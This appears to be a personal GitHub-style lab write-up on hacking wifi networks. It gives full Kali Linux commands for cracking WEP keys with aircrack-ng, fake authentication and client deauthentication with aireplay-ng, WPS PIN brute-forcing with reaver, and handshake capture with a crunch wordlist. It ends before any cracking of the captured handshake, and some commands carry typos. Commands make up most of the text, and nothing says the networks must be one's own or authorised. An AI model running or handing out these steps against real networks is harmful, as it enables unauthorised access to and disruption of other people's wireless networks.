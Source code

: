 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Sniff on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```
- 


￼
